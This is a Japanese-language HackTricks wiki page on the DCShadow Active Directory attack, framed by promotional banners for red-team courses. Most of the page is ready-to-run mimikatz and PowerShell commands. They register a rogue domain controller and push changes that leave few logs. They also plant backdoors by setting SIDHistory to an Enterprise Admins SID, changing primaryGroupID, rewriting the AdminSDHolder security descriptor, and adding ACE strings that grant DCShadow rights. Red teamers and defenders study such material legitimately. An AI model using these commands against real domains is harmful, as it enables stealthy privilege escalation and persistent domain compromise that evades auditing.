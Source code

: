 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

ADに**新しいドメインコントローラー**を登録し、指定されたオブジェクトに**属性**（SIDHistory、SPNsなど）を**プッシュ**するために使用しますが、**変更**に関する**ログ**を残さずに行います。**DA**権限が必要で、**ルートドメイン**内にいる必要があります。\
間違ったデータを使用すると、かなりひどいログが表示されることに注意してください。

攻撃を実行するには、2つのmimikatzインスタンスが必要です。1つはSYSTEM権限でRPCサーバーを起動し（ここで実行したい変更を指定する必要があります）、もう1つのインスタンスは値をプッシュするために使用されます：

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - DAまたは同様の権限が必要" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

**`elevate::token`** は `mimikatz1` セッションでは機能しません。これはスレッドの特権を昇格させるためですが、私たちは **プロセスの特権を昇格させる** 必要があります。\
また、"LDAP" オブジェクトを選択することもできます: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

DA またはこの最小限の権限を持つユーザーから変更をプッシュできます:

* **ドメインオブジェクト**内:
* _DS-Install-Replica_ (ドメイン内のレプリカの追加/削除)
* _DS-Replication-Manage-Topology_ (レプリケーショントポロジーの管理)
* _DS-Replication-Synchronize_ (レプリケーションの同期)
* **構成コンテナ**内の **サイトオブジェクト** (およびその子):
* _CreateChild and DeleteChild_
* **DC** として登録されている **コンピュータのオブジェクト**:
* _WriteProperty_ (書き込みではない)
* **ターゲットオブジェクト**:
* _WriteProperty_ (書き込みではない)

[**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) を使用して、特権のないユーザーにこれらの権限を付与できます (これによりいくつかのログが残ることに注意してください)。これは DA 権限を持つよりもはるかに制限されています。\
例えば: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  これは、ユーザー名 _**student1**_ がマシン _**mcorp-student1**_ にログインしているときに、オブジェクト _**root1user**_ に対して DCShadow 権限を持つことを意味します。

## DCShadow を使用してバックドアを作成する

{% code title="SIDHistory にユーザーを設定するためのエンタープライズ管理者" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="プライマリグループIDを変更する（ユーザーをドメイン管理者のメンバーにする）" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="AdminSDHolderのntSecurityDescriptorを変更する（ユーザーにフルコントロールを付与する）" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadowの権限をDCShadowを使用して付与する（変更された権限ログなし）

次のACEをユーザーのSIDの末尾に追加する必要があります：

* ドメインオブジェクト上：
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* 攻撃者コンピュータオブジェクト上：`(A;;WP;;;UserSID)`
* ターゲットユーザーオブジェクト上：`(A;;WP;;;UserSID)`
* 設定コンテナ内のサイトオブジェクト上：`(A;CI;CCDC;;;UserSID)`

オブジェクトの現在のACEを取得するには：`(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

この場合、**いくつかの変更を行う必要がある**ことに注意してください。したがって、**mimikatz1セッション**（RPCサーバー）で、行いたい各変更に対して**`/stack`パラメータを使用**します。この方法で、すべてのスタックされた変更をルージュサーバーで実行するために**`/push`**を一度だけ実行する必要があります。

[**ired.teamのDCShadowに関する詳細情報。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
